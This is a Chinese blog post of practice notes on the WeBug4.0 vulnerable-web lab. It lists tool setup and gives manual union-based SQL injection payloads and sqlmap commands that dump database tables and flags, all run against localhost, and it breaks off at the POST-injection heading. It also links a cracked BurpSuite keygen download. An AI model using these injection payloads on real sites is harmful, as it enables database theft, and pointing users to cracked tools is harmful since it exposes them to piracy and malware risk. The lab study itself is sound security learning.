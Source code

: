 ```yaml
---
title: WeBug4.0练习笔记
date: 2020-05-19 20:18:48
description: 在webug4.0的测试平台上测试后所写的一些测试笔记
---
```


> 网络安全测试笔记

## 下载部署

+ WeBug4.0
  - 下载：https://pan.baidu.com/s/1PiipS0Iheegdb2Y0gaFM8w 提取码: rbrg

+ hackbar: 火狐新版hackbar收费，解决方案如下：
  1. 旧版：[https://github.com/HCTYMFF/hackbar2.1.3/archive/master.zip](https://github.com/HCTYMFF/hackbar2.1.3/archive/master.zip)
  2. 替代插件：[https://addons.mozilla.org/zh-CN/firefox/addon/max-hackbar/?src=search](https://addons.mozilla.org/zh-CN/firefox/addon/max-hackbar/?src=search)

## 学习记录

工具准备：

- JAVA环境:
  - 下载：[https://www.oracle.com/java/technologies/javase/javase-jdk8-downloads.html](https://www.oracle.com/java/technologies/javase/javase-jdk8-downloads.html)

- Python环境:
  - 当前版本：python-2.7.15rc1.msi
  - 下载：[https://npm.taobao.org/mirrors/python/3.8.3/](https://npm.taobao.org/mirrors/python/3.8.3/) （因为下述使用的sqlmap是基于python2.7的）
  - 配置教程：[Python2.x安装教程及环境变量配置](https://blog.csdn.net/ITLearnHall/article/details/81318939)

> Windows系统不重启而使环境变量生效的方法
> 以修改环境变量`PATH`为例，修改完成后，运行`cmd`，输入`set PATH=C:`，关闭DOS窗口。再次运行`cmd`，输入`echo %PATH%`，可以发现`我的电脑`->`属性`->`高级`->`环境变量`中设置的 `PATH`值已经生效。


- BurpSuie: 
  - 下载链接: [https://pan.baidu.com/s/1F36mvPsWv3Buk0G-UaKr7A](https://pan.baidu.com/s/1F36mvPsWv3Buk0G-UaKr7A) 提取码: 9hzm
  - 配置教程：[最新BurpSuite 1.7.32 破解版[注册机]下载【无后门版】](http://www.vuln.cn/8847)

- sqlmap:
  - 下载链接：[http://sqlmap.org/](http://sqlmap.org/)

### 显错注入

> 报错型：
> 构造payload让信息通过错误提示回显出来，一种类型（其它的暂时不怎么了解）是先报字段数，再利用后台数据库报错机制回显（跟一般的报错区别是，一般的报错注入是爆出字段数后，在此基础通过正确的查询语句，使结果回显到页面；后者是在爆出字段数的基础上使用能触发SQL报错机制的注入语句）

参考资料：[https://blog.csdn.net/weixin_40709439/article/details/81355856](https://blog.csdn.net/weixin_40709439/article/details/81355856)

#### 方法一：手动注入

1. 由地址的`?id=1`可尝试猜想表的列数，构造`?id=1' order by 1 %23'`，依次推演

2. 发现到`?id=1' order by 3 %23'`报错，猜想列表有两行，构造`' union select 1,group_concat(schema_name) from information_schema.schemata%23`

3. 构造`' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' %23`

4. 构造`' union select 1,flag from webug.flag %23`

#### 方法二：使用sqlmap注入

1. 获取当前id对应的数据库：`python sqlmap.py -u  http://localhost/control/sqlinject/manifest_error.php?id=1 -p id --current-db`

![](/images/2020-05-21-20-49-20.png)

2. 获取`webug`数据库存在的表：`python sqlmap.py -u  http://localhost/control/sqlinject/manifest_error.php?id=1 -p id -D webug --tables`

![](/images/2020-05-21-20-51-24.png)

3. 获取flag的值：`python sqlmap.py -u  http://localhost/control/sqlinject/manifest_error.php?id=1 -p id -D webug -T flag --dump`

![](/images/2020-05-21-20-53-37.png)

----

### 布尔注入：

> 布尔型：
> 页面只返回True和False两种类型页面。利用页面返回不同，逐个猜解数据

参考资料：[https://blog.csdn.net/weixin_40709439/article/details/81355856](https://blog.csdn.net/weixin_40709439/article/details/81355856)

#### 方法一：手动布尔注入

暂无

#### 方法二：使用sqlmap注入

1. 获取当前数据库：`python sqlmap.py -u  http://localhost/control/sqlinject/bool_injection.php?id=1 -p id --current-db`

![](/images/2020-05-21-21-04-41.png)

2. 获取webug数据库的表：`python sqlmap.py -u  http://localhost/control/sqlinject/bool_injection.php?id=1 -p id -D webug --tables`

![](/images/2020-05-21-21-06-12.png)

3. 获取flag的值，提交FLAG的时候报错！

4. 换个表，`python sqlmap.py -u http://localhost/control/sqlinject/bool_injection.php?id=1 -D webug -T env_list --dump`

![](/images/2020-05-25-19-40-05.png)

5. 获取flag值：fdsafsdfa

----

### 延时注入：

> 时间型：通过页面沉睡时间判断
> 通过 sleep（）函数测试，通过if（）和sleep（）联合逐个猜解数据

参考资料：[https://blog.csdn.net/weixin_40709439/article/details/81355856](https://blog.csdn.net/weixin_40709439/article/details/81355856)

#### 方法一：延时注入

暂无

#### 方法二：使用sqlmap注入

1. 方法同上

----

### post注入
